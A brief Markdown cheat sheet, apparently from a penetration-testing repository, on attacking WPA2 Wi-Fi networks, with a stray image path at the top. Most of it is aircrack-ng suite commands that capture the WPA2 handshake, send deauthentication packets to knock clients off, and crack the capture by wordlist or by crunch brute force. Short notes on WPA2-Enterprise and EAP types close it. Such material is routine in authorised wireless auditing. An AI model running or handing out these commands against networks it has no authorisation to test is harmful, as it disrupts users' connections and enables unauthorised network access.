 ### General information
```
4 way handshake for authentiation
every user get single session (Pairwise Transient key - PTK, calculated from Pairwise Master Key - PMK)
replay protected
```

### Capture handshake
```
airmon-ng check
airmon-ng check kill
airmon-ng start <interface>
airodump-ng <interface> --bssid <bssid> --channel <channel> --write <file>
```

### If there are some problems starting the interface you can try
```
rfkill unblock all
```

### Send deauthenticate packets
```
aireplay-ng --deauth 5 -a <bssid> <interface>
```
 
### Crack captured handshake using wordlist
```
aircrack-ng <file>.cap -w <wordlist>
```

### Bruteforce captured handshake
```
crunch 8 10 [a-z;A-Z;0-9] | aircrack-ng <file>.cap -b <bssid> -w-
```
 
### General information about WPA2-Enterprise
```
No global key
Radius server used for authentication
```

### EAP-Types (without outer tunnel):
```
EAP-MD5
EAP-LEAP
```

### EAP-Types (with outer tunnel):
```
EAP-FAST
PEAP
EAP-TLS
```

